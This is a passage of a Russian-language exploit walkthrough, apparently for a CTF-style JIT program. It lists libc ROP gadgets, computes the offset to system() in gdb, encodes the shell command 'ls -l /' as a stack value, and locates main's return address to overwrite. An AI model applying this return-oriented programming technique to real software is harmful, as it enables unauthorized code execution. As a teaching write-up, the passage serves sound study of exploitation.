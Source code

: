 ```asm
0x0000000000178197: pop rdi; cmp esi, dword ptr [rdi + rax]; jne 0x1781a4; add rax, rdi; vzeroupper; ret; 
0x000000000017486b: pop rdi; cmp sil, byte ptr [rdi + rax]; jne 0x174879; add rax, rdi; vzeroupper; ret; 
0x000000000004598e: pop rdi; idiv edi; jmp qword ptr [rsi + 0xf]; 
0x000000000015c38f: pop rdi; in al, dx; dec dword ptr [rax - 0x77]; ret; 
0x0000000000026ca5: pop rdi; jmp rax; 
0x00000000000e2da4: pop rdi; jmp rdi; 
0x00000000000f1a2d: pop rdi; mov cl, 0xff; inc dword ptr [rcx - 0x77]; ret; 
0x00000000000e2d84: pop rdi; mov eax, 0x3a; syscall; 
0x000000000011fe08: pop rdi; or eax, 0x64d8f700; mov dword ptr [rcx], eax; or rax, 0xffffffffffffffff; ret; 
0x0000000000023e75: pop rdi; pop rbp; ret; 
0x000000000003dc3d: pop rdi; rcl byte ptr [rdi], 0; call 0x33550; xor eax, eax; ret; 
0x0000000000126838: pop rdi; sbb byte ptr [rax + 0x39], cl; ret; 
0x000000000012686d: pop rdi; sbb byte ptr [rax - 0x77], cl; ret 0x2948; 
0x000000000016aebd: pop rdi; sbb eax, 0x8b48fff2; and al, 8; add rsp, 0x10; pop rbx; ret; 
0x0000000000198a10: pop rdi; xor eax, eax; add rsp, 0x38; ret; 
0x0000000000023b65: pop rdi; ret; 
```

Совсем другое дело. Последний гаджет, кажется, поможет нам больше всего.

```c
gef➤  p/d (long long)system - (0x00007ffff7c00000 + 0x0000000000023b65)
$3 = 174523
```

(`0x00007ffff7c00000` -- начальный адрес libc, как видно из vmmap)

```asm
mov c b
sub c 174523
```

Осталось понять, что же класть в `rdi`. Туда мы положим как раз адрес на стеке JIT-программы, в который через `push` положим шелл-код, например, `ls -l /`. Это 8 байт, включая нулевой. Эту 8-байтовую бинарную строку нужно перевести в 64-битное число, которое при push'е превратится в то, что нужно. Вспоминая, что x86-64 использует little-endian, получаем это число так:

```shell
$ echo $((0x$(printf "ls -l /\0" | rev | xxd -p)))
13264972891059052
```

Наконец, поймем, где лежит адрес возврата main, то бишь что перетирать. Для этого можно, например, посмотреть текущий `rsp`:

```c
gef➤  p $rsp
$4 = (void *) 0x7fffffffdc30
```

Потом поставить breakpoint на выход из `main` и пропустить текущую инструкцию `jmp $`:

```c
gef➤  disas
Dump of assembler code for function main:
...
   0x0000555555555204 <+155>: xor    rdx,rdx
=> 0x0000555555555207 <+158>: jmp    0x555555555207 <main+158>
   0x0000555555555209 <+160>: xor    rcx,rcx
...
   0x0000555555555268 <+255>: mov    rbx,QWORD PTR [rbp-0x8]
   0x000055555555526c <+259>: leave
   0x000055555555526d <+260>: ret

gef➤  b *0x000055555555526d
Breakpoint 1 at 0x55555555526d: file <stdin>, line 52.
```